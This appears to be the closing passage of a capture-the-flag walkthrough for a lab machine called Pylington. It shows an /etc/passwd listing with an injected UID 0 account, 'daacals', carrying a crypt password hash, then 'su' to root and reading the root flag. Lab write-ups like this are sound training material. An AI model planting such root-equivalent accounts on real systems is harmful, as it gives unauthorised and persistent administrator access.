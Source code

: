 ```bash
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
py:x:1000:1000::/home/py:/bin/bash
git:x:974:974:git daemon user:/:/usr/bin/git-shell
redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
Danielkaas94
daacals:$1$daacals$nkjJrhh3mq1CYoF/hul/w.:0:0::/root:/bin/bash
[py@archlinux secret_stuff]$

# Change user with the su command
# And now! We can get the root flag! 🚩
[py@archlinux secret_stuff]$ su daacals
Password: 
[root@archlinux secret_stuff]# ls
backup  backup.cc
[root@archlinux secret_stuff]# cd /root
[root@archlinux ~]# ls
root.txt
[root@archlinux ~]# cat root.txt 
63a9f0ea7bb98050796b649e85481845
[root@archlinux ~]# 
```

![Pylington](py_root.png)


---
---
